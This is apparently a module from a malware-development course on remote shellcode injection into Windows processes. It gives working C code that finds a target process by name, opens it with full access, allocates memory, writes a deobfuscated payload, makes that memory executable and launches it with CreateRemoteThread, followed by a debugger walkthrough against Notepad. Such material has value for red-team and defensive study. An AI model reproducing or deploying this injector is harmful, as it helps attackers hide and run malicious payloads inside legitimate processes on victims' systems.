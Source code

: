 # 3.7 Process Injection - Shellcode Injection

### Introduction

This module will be similar to the previous DLL Injection module with minor changes. Shellcode process injection will use almost the same Windows APIs to perform the task:

- [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) - Memory allocation.
- [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) - Write the payload to the remote process.
- [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) - Modifying memory protection.
- [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) - Payload execution via a new thread.

### Enumerating Processes

Similarly to the previous module, process injection starts by enumerating the processes. The process enumeration code snippet shown below was already explained in the previous module.

```c
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {

	// According to the documentation:
	// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
	// If dwSize is not initialized, Process32First fails.
	PROCESSENTRY32	Proc = {
		.dwSize = sizeof(PROCESSENTRY32) 
	};

	HANDLE hSnapShot = NULL;

	// Takes a snapshot of the currently running processes 
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE){
		printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first process encountered in the snapshot.
	if (!Process32First(hSnapShot, &Proc)) {
		printf("[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {

		WCHAR LowerName[MAX_PATH * 2];

		if (Proc.szExeFile) {
			DWORD	dwSize = lstrlenW(Proc.szExeFile);
			DWORD   i = 0;

			RtlSecureZeroMemory(LowerName, MAX_PATH * 2);

			// Converting each charachter in Proc.szExeFile to a lower case character
			// and saving it in LowerName
			if (dwSize < MAX_PATH * 2) {

				for (; i < dwSize; i++)
					LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);

				LowerName[i++] = '\0';
			}
		}

		// If the lowercase'd process name matches the process we're looking for
		if (wcscmp(LowerName, szProcessName) == 0) {
			// Save the PID
			*dwProcessId = Proc.th32ProcessID;
			// Open a handle to the process
			*hProcess    = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
			if (*hProcess == NULL)
				printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());

			break;
		}

	// Retrieves information about the next process recorded the snapshot.
	// While a process still remains in the snapshot, continue looping
	} while (Process32Next(hSnapShot, &Proc));

	// Cleanup
	_EndOfFunction:
		if (hSnapShot != NULL)
			CloseHandle(hSnapShot);
		if (*dwProcessId == NULL || *hProcess == NULL)
			return FALSE;
		return TRUE;
	}
```

### Shellcode Injection

To perform shellcode injection the `InjectShellcodeToRemoteProcess` function will be used. The function takes 3 parameters:

1. `hProcess` - A handle to the opened remote process.
    
2. `pShellcode` - The deobfuscated shellcode's base address and size. The shellcode must be in plaintext before being injected because it cannot be edited once it's in the remote process.
    
3. `sSizeOfShellcode` - The size of the shellcode.
    

#### Shellcode Injection - Code Snippet

```c
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {

	PVOID	pShellcodeAddress              = NULL;

	SIZE_T	sNumberOfBytesWritten          = NULL;
	DWORD	dwOldProtection                = NULL;


	// Allocate memory in the remote process of size sSizeOfShellcode 
	pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pShellcodeAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	// Write the shellcode in the allocated memory
	if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[i] Successfully Written %d Bytes\n", sNumberOfBytesWritten);

	memset(pShellcode, '\0', sSizeOfShellcode);

	// Make the memory region executable
	if (!VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	
	printf("[#] Press <Enter> To Run ... ");
	getchar();
	printf("[i] Executing Payload ... ");
	// Launch the shellcode in a new thread
	if (CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("[+] DONE !\n");

	return TRUE;
}
```

### Deallocating Remote Memory

[VirtualFreeEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualfreeex) is a WinAPI that is used to deallocate previously allocated memory in a remote process. This function should only be called after the payload has fully finished execution otherwise it might free the payload's content and crash the process.

```c
BOOL VirtualFreeEx(
  [in] HANDLE hProcess,
  [in] LPVOID lpAddress,
  [in] SIZE_T dwSize,
  [in] DWORD  dwFreeType
);
```

`VirtualFreeEx` takes the same parameter as the `VirtualFree` WinAPI with the only difference being that `VirtualFreeEx` takes an additional parameter (`hProcess`) that specifies the target process where the memory region resides.

### Debugging

In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.

This walkthrough injects shellcode into a Notepad process therefore start by opening up Notepad and attaching the x64 xdbg debugger to it. The image below shows the process has PID `22992`.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-1.png)

  

Run `RemoteShellcodeInjection.exe` providing notepad.exe as an argument. The binary will start by searching for the PID of Notepad which should be the same PID shown in the xdbg debugger, which in this case is `22992`.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-2.png)

  

Next, the binary will decrypt the payload. Notice that attempting to access the memory address will result in an error. The reason this happens is because the debugger is attached to the `notepad.exe` process whereas the deobfuscation process occurs in the local process which is `RemoteShellcodeInjection.exe`.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-3.png)

  

To view the deobfuscated payload, a new instance of xdbg must be opened and attached to the `RemoteShellcodeInjection.exe` process.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-4.png)

  

Back to the Notepad debugger instance, the next step is memory allocation. The base address where the payload will be written is `0x0000021700230000`. The debugger shows that the allocated memory region was zeroed out.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-5.png)

  

The deobfuscated payload is then written to the allocated memory region in the remote process.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-6.png)

  

Analyzing the local process, the payload was successfully zeroed out since it is not required anymore.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-7.png)

  

Finally, the payload is executed in the remote process inside of a new thread.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-shellcode-injection-8.png)